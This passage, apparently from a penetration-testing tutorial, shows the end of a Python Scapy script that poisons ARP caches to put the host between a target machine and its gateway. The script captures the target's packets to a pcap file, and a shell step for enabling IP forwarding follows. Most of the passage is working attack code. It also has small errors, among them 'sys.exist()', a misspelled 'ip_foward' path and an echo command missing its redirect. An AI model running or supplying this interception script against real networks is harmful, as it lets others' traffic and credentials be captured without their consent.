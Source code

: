 ```python
            send(poison_gateway)
            time.sleep(2)

        except KeyboardInterrupt:
            restore_target(gateway_ip, gateway_mac, target_ip, target_mac)

    print '[*] ARP poison attack finished.'
    return

if __name__ == '__main__':
    conf.iface = INTERFACE
    conf.verb = 0
    print "[*] Setting up %s" % INTERFACE
    GATEWAY_MAC = get_mac(GATEWAY_IP)
    if GATEWAY_MAC is None:
        print "[-] Failed to get gateway MAC. Exiting."
        sys.exit(0)
    else:
        print "[*] Gateway %s is at %s" %(GATEWAY_IP, GATEWAY_MAC)

    TARGET_MAC = get_mac(TARGET_IP)
    if TARGET_MAC is None:
        print "[-] Failed to get target MAC. Exiting."
        sys.exit(0)
    else:
        print "[*] Target %s is at %s" % (TARGET_IP, TARGET_MAC)

    poison_thread = threading.Thread(target = poison_target, args=(GATEWAY_IP, GATEWAY_MAC, \
        TARGET_IP, TARGET_MAC))
    poison_thread.start()

    try:
        print '[*] Starting sniffer for %d packets' %PACKET_COUNT
        bpf_filter = 'IP host ' + TARGET_IP
        packets = sniff(count=PACKET_COUNT, iface=INTERFACE)
        wrpcap('results.pcap', packets)
        restore_target(GATEWAY_IP, GATEWAY_MAC, TARGET_IP, TARGET_MAC)

    except Scapy_Exception as msg:
        print msg, "Hi there!!"

    except KeyboardInterrupt:
        restore_target(GATEWAY_IP, GATEWAY_MAC, TARGET_IP, TARGET_MAC)
        sys.exist()
```

To run this ARP cache poisoning script, we need to tell the local host machine (Kali Linux) to forward packets along both the gateway and the target IP address:

```sh
$ echo 1 /proc/sys/net/ipv4/ip_foward
```
